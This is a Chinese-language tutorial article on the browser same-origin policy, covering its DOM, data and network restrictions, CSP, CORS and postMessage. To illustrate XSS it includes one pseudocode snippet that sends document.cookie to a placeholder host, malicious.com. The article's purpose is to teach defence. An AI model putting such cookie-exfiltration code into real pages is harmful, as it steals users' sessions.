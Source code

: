 ```yaml
---
title: 32 _ 同源策略：为什么XMLHttpRequest不能跨域请求资源？
date: 2022-03-08 21:55:12
permalink: /pages/517319/
categories:
  - 极客时间
  - 浏览器工作原理与实践
tags:
  - 
---
```

<audio title="32 _ 同源策略：为什么XMLHttpRequest不能跨域请求资源？" src="https://static001.geekbang.org/resource/audio/ad/5a/ad6bcea8db1937b21a5182c6a53f415a.mp3" controls="controls"></audio> 
<p>通过前面6个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的5篇文章，我们就来系统地介绍下浏览器安全相关的内容。</p><p>浏览器安全可以分为三大块——<strong>Web页面安全、浏览器网络安全</strong>和<strong>浏览器系统安全</strong>，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。</p><p>今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？</p><p>Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。</p><p>Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。</p><p>比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：</p><ul>
<li>修改银行站点的DOM、CSSOM等信息；</li>
<li>在银行站点内部插入JavaScript脚本；</li>
<li>劫持用户登录的用户名和密码；</li>
<li>读取银行站点的Cookie、IndexDB等数据；</li>
<li>甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。</li>
</ul><!-- [[[read_end]]] --><p>所以说，<strong>在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全</strong>。</p><p>这就引出了页面中最基础、最核心的安全策略：<strong>同源策略（Same-origin policy）</strong>。</p><h2>什么是同源策略</h2><p>要了解什么是同源策略，我们得先来看看什么是同源。</p><p><strong>如果两个URL的协议、域名和端口都相同，我们就称这两个URL同源</strong>。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。</p><pre><code>https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
</code></pre><p>浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。</p><p>具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。</p><p><strong>第一个，DOM层面</strong>。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。</p><p>这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/c9/d7/c9294ee10c571c8b7061a5c8f03b6cd7.png" alt=""></p><center><span class="reference">通过极客时间官网打开一个专栏页面</span></center><p>由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：</p><pre><code>{
let pdom = opener.document
pdom.body.style.display = &quot;none&quot;
}
</code></pre><p>该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。</p><p>我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：</p><p><img src="https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png" alt=""></p><center><span class="reference">通过第二个页面操纵第一个页面的DOM</span></center><p>不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png" alt=""></p><center><span class="reference">不同源的两个页面不能相互操纵DOM</span></center><p>从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。</p><pre><code>Blocked a frame with origin &quot;https://www.infoq.cn&quot; from accessing a cross-origin frame.
</code></pre><p><strong>第二个，数据层面</strong>。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。</p><p><strong>第三个，网络层面</strong>。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在<a href="https://time.geekbang.org/column/article/135127">《17 | WebAPI：XMLHttpRequest是怎么实现的？》</a>这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。</p><h2>安全和便利性的权衡</h2><p>我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。</p><h3>1. 页面中可以嵌入第三方资源</h3><p>我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。</p><p>所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。</p><p>比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：</p><p><img src="https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png" alt=""></p><p>当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。</p><p>除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：</p><pre><code>function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
</code></pre><p>在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。</p><p>以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。<strong>CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码</strong>。通过这些手段就可以大大减少XSS攻击。</p><h3>2. 跨域资源共享和跨文档消息机制</h3><p>默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。</p><p>为了解决这个问题，我们引入了<strong>跨域资源共享（CORS）</strong>，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。</p><p>在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了<strong>跨文档消息机制</strong>，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。</p><h2>总结</h2><p>好了，今天就介绍到这里，下面我来总结下本文的主要内容。</p><p>同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：</p><ol>
<li>页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。</li>
<li>使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。</li>
<li>两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。</li>
</ol><h2>思考时间</h2><p>今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。</p><p>欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。</p><p></p>
